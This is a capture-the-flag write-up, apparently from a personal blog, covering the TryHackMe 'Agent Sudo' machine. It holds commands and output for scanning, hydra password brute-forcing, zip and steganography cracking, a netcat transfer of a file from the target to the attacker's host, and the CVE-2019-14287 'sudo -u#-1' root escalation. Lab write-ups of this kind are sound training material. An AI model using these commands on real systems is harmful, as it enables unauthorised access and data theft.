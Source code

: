 ```yaml
---
tagline: agentsudo
title: Agent Sudo - Writeup
description: Mom, I think there are aliens outside...
banner: /blog/agentsudobanner.jpeg/
banner_alt: better late than never, better late than never
date: '2024-03-4'
---
```


## Nmap

```bash:Terminal
┌──(vipin㉿vipin)-[~]
└─$ sudo nmap -sS -sV 10.10.137.85
[sudo] password for vipin: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-03 22:53 EST
Nmap scan report for 10.10.137.85
Host is up (0.094s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.10 seconds
```

- 3 open ports

## Enumerate cont'd

- To redirect to the secret page, we need to modify the **user-agent** using cURL. I used the command ```curl -A <useragent> 10.10.137.85 -L``` and trying *R* as a user agent shows this.

![Image showing result of R](/blog/agentsudopics/useragentcurl.png 'Fig.1')

- When we try C we get this

![Image showing result of C](/blog/agentsudopics/chris.png 'Fig.2')

- Now we know his name is chris and that his password is weak (not actually weak)

## Hash cracking and brute-force

- I cracked the FTP Password using this command ```hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.194.92 -V```

![Image showing ftp cracked](/blog/agentsudopics/ftpcracked.png 'Fig.3')

- Next is logging into the ftp server with ```ftp user@ip```. Inside we find a txt file that reads

```txt:Text Editor
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

- Lets also ```get``` the other images. Inside *cutie.png*, we find a zip file (binwalk'ed) that is password protected.

```bash:Terminal
┌──(vipin㉿vipin)-[~/Downloads]
└─$ zip2john 8702.zip > 8702.hash
                                                                                                      
┌──(vipin㉿vipin)-[~/Downloads]
└─$ john 8702.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 128/128 ASIMD 4x])
Cost 1 (HMAC size) is 78 for all loaded hashes
Will run 2 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
alien            (8702.zip/To_agentR.txt)     
1g 0:00:00:02 DONE 2/3 (2024-03-04 21:35) 0.4975g/s 22230p/s 22230c/s 22230C/s 123456..Peter
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

- Inside the zip file was a txt file named *To_agentR.txt* which says this

```txt:Text Editor
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```

- It seem like the text is in base64

```bash:Terminal
┌──(vipin㉿vipin)-[~/Downloads]
└─$ echo 'QXJlYTUx' | base64 -d
Area51           
```

- Now that we have the steg password lets extract text the other image

```bash:Terminal
┌──(vipin㉿vipin)-[~]
└─$ steghide --extract -p Area51 -sf cute-alien.jpg
wrote extracted data to "message.txt".

┌──(vipin㉿vipin)-[~]
└─$ cat message.txt                                                                   
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

- Thats a LOT of information, enough to get us to the next section.

## Capture the user flag

```bash:Terminal
┌──(vipin㉿vipin)-[~]
└─$ ssh james@10.10.194.92                         
The authenticity of host '10.10.194.92 (10.10.194.92)' can't be established.
ED25519 key fingerprint is SHA256:rt6rNpPo1pGMkl4PRRE7NaQKAHV+UNkS9BfrCy8jVCA.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.194.92' (ED25519) to the list of known hosts.
james@10.10.194.92's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-55-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Mar  5 02:49:58 UTC 2024

  System load:  0.0               Processes:           92
  Usage of /:   39.7% of 9.78GB   Users logged in:     0
  Memory usage: 31%               IP address for eth0: 10.10.194.92
  Swap usage:   0%


75 packages can be updated.
33 updates are security updates.


Last login: Tue Oct 29 14:26:27 2019
james@agent-sudo:~$ ls
Alien_autospy.jpg  user_flag.txt
james@agent-sudo:~$ cat user_flag.txt 
b03d975e8c92a7c04146cfa7a5a313c7
```

- Now for the next question, utilizing netcat I transfered the file to my vm

```bash:Terminal
james@agent-sudo:~$ nc -w 5 10.6.22.229 6969 < /home/james/Alien_autospy.jpg

# on another window

┌──(vipin㉿vipin)-[~/Desktop]
└─$ nc -lvnp 6969 > Alien_autopsy.jpg
```

- Now using google search, we find this various results but no fox news, but using the other articles I learned that some guy named Roswell faked an alien autopsy which gives us the answer *roswell alien autopsy*.

## Privilege escalation

> it's the most wonderful time of the Machine

- We start by running ```find / -uid 0 -perm -4000 -type f 2>/dev/null``` to find exploitable SUID Binaries and sudo seems to be one.

```bash:Terminal
james@agent-sudo:~$ sudo -l
[sudo] password for james: 
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

- A little searching find us [this](https://www.exploit-db.com/exploits/47502) exploit which tells us the CVE (CVE-2019-14287) & how to privilege escalate!

```bash:Terminal
james@agent-sudo:~$ sudo -u#-1 /bin/bash
root@agent-sudo:~# cat /root/root.txt 
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R
```

### MACHINE PWN'ED 😎

![My Tryhackme badge uh huh](https://tryhackme-badges.s3.amazonaws.com/vipin.b.png)
